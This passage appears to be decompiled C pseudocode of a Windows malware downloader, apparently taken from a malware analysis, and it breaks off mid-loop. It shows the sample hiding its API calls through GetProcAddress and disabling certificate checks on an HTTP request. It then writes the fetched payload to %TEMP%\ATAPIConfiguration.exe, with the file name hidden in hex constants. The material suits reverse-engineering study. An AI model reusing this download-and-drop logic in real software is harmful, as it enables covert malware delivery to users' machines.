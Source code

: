 ```c
                            (hConnect,&DAT_00413270,L"/s/uzu60whrg1spnyy/ATAPIConfiguration",0,0,0,
                             0x800000,1);
      if (hInternet == 0) {
        uVar3 = 0xe;
      }
      else {
        lpdwBufferLength = 4;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetQueryOptionW_addr = GetProcAddress(hModule,"InternetQueryOptionW");
        iVar4 = (*InternetQueryOptionW_addr)(hInternet,0x1f,&lpBuffer,&lpdwBufferLength);
        if (iVar4 != 0) {
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetSetOptionW = GetProcAddress(hModule,"InternetSetOptionW");
          lpBuffer = lpBuffer | 0x1180;
          (*InternetSetOptionW)(hInternet,0x1f,&lpBuffer,4);
        }
        hModule = GetModuleHandleW(L"wininet.dll");
        HttpSendRequestA_addr = GetProcAddress(hModule,"HttpSendRequestA");
        local_38 = (*HttpSendRequestA_addr)(hInternet,0,0,0,0);
        local_3c = malloc(16000);
        memset(local_3c,0,16000);
        memset(download_path,0,0x1000);
        temp_path = getenv("TEMP");
        temp_path_len = strlen(temp_path);
        DAT_0041602c = (LPCSTR)malloc(temp_path_len + 0x1000);
        strcpy(DAT_0041602c,temp_path);
        uVar6 = 0xffffffff;
        pCVar7 = DAT_0041602c;
        do {
          if (uVar6 == 0) break;
          uVar6 = uVar6 - 1;
          cVar1 = *pCVar7;
          pCVar7 = pCVar7 + 1;
        } while (cVar1 != '\0');
        puVar5 = (undefined4 *)(DAT_0041602c + (~uVar6 - 1));
        *puVar5 = 0x4154415c;
        puVar5[1] = 0x6f434950;
        puVar5[2] = 0x6769666e;
        puVar5[3] = 0x74617275;
        puVar5[4] = 0x2e6e6f69;
        puVar5[5] = 0x657865;
        MultiByteToWideChar(0,0,DAT_0041602c,-1,download_path,0x1000);
        hModule = GetModuleHandleW(L"kernel32.dll");
        CreateFileW_addr = GetProcAddress(hModule,"CreateFileW");
                    /* GENERIC_READ | GENERIC_WRITE */
        local_48 = (HANDLE)(*CreateFileW_addr)(download_path,0xc0000000,0,0,2,0x80,0);
        local_60 = 0;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetReadFile_addr = GetProcAddress(hModule,"InternetReadFile");
        hModule = GetModuleHandleW(L"kernel32.dll");
        WriteFile_addr = GetProcAddress(hModule,"WriteFile");
        if (local_38 == 0) {
          uVar3 = 0xe;
        }
        else {
          local_64 = 0;
          while( true ) {
            iVar4 = (*InternetReadFile_addr)(hInternet,local_3c,0x2000,&local_64);
            if ((iVar4 == 0) || (local_64 == 0)) {
              bVar2 = false;
            }
            else {
              bVar2 = true;
```